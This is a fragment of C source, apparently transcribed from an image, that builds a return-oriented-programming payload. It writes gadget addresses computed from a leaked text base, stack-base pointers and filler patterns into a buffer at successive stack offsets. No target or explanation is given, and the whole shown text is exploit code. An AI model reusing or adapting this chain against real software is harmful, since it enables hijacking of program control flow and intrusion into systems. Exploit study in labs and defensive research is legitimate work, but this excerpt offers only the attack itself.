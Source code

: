 ```C

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x1a64;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = 0x0;
	*(payload + sp_offset + 4) = 0x2121212121212121;
	*(payload + sp_offset + 5) = 0x2222222222222222;
	*(payload + sp_offset + 6) = 0x2323232323232323;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x25cc;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = stack_base + 0xe0;

	sp_offset += 0x20 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x9e20;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = 0x2020202020202020;

	sp_offset += 0x30 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x42c4;
	*(payload + sp_offset + 4) = 0x2121212121212121;
	*(payload + sp_offset + 5) = 0x1;
	*(payload + sp_offset + 6) = 0xaaaaaaaaaaaaaaaa;
	*(payload + sp_offset + 7) = 0x2424242424242424;
	*(payload + sp_offset + 8) = 0x2525252525252525;
	*(payload + sp_offset + 9) = 0x2626262626262626;
	*(payload + sp_offset + 10) = text_base + 0x2670;
	*(payload + sp_offset + 11) = 0x2828282828282828;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x1a64;
	*(payload + sp_offset + 2) = 0x1919191919191919;

	sp_offset += 0x20 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x9e2c;
	*(payload + sp_offset + 2) = 0x0;
	*(payload + sp_offset + 3) = stack_base + 0x268;

	sp_offset += 0x20 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x2128;
	*(payload + sp_offset + 10) = text_base + 0x26c8;
	*(payload + sp_offset + 11) = 0x2828282828282828;

	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x42c4;
	*(payload + sp_offset + 4) = stack_base + 0x8;
	*(payload + sp_offset + 5) = 0x0;

```